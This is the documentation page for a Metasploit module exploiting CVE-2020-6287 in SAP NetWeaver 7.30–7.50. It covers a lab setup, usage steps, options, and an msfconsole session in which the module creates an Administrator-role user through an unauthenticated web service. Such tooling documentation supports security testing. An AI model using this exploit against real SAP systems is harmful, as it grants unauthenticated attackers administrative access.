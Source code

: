 ## Vulnerable Application
This module leverages an unauthenticated web service to submit a job which will create a user with a specified role. The
job involves running a wizard. After the necessary action is taken, the job is canceled to avoid unnecessary system
changes.

SAP NetWeaver NetWeaver versions 7.30 through 7.50 are affected by this vulnerability. An Amazon Machine Image (AMI) for
Amazon Web Services (AWS) can be used as a testing environment. One such image is provided by Linke IT America LLC and
is available on the [AWS Marketplace][1] with installation instructions posted to their [blog][2].

Once setup and configured, the instances will be vulnerable on the default HTTP port 50000.

If the password does not meet the requirements (e.g. the value is too short), the server will respond with an error
message and the Metasploit module will need to be rerun.

## Verification Steps

  1. Install the application
  1. Start msfconsole
  1. Do: `use auxiliary/admin/sap/cve_2020_6287_ws_add_user`
  1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
  1. Run the module and wait a few seconds
  1. Once the "PCK Upgrade" job has been canceled, log in with the created credentials

## Options

### ROLE
The role to assign to the user in the system. This value is "Administrator" by default. If the role does not exist, then
execution will fail. For more information on users and roles, see the [SAP documentation][3].

From the documentation:
> Standard UME roles include such actions. The UME role Administrator includes Manage_ All, which enables you to display
> and change everything. By default, administrator roles are only assigned to administrators.

## Scenarios

### SAP NetWeaver 7.50

For example, adding a new user `metasploit` with the `Administrator` role:

```
msf5 > use auxiliary/admin/sap/cve_2020_6287_ws_add_user 
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set RHOSTS netweaver.lan
RHOSTS => netweaver.lan
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set USERNAME metasploit
USERNAME => metasploit
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set PASSWORD 0pe3nS3sam3
PASSWORD => 0pe3nS3sam3
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set VERBOSE true
VERBOSE => true
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) > run
[*] Running module against 192.168.53.183

[*] Starting the PCK Upgrade job...
[+] Job running with session id: 2c139ded-287f-4c21-a5ef-4c379abcbe22
[*] Received event description: Execution of User Management
[*] Received event description: Create User PCKUser
[*] Received event description: Assign Role SAP_XI_PCK_CONFIG to PCKUser
[*] Canceling the PCK Upgrade job...
[*] Auxiliary module execution completed
msf5 auxiliary(admin/sap/cve_2020_6287_ws_add_user) >
```

[1]: https://aws.amazon.com/marketplace/seller-profile?id=56cbce49-5486-4a83-a6b7-0fea3841da1b
[2]: https://docs.linkeit.com/amis/catalog/sap_ready_ami_installation_guide_nw750java_susesyb/
[3]: https://help.sap.com/doc/saphelp_nw73ehp1/7.31.19/en-US/4a/6e8a7ab94e4d27e10000000a42189b/frameset.htm
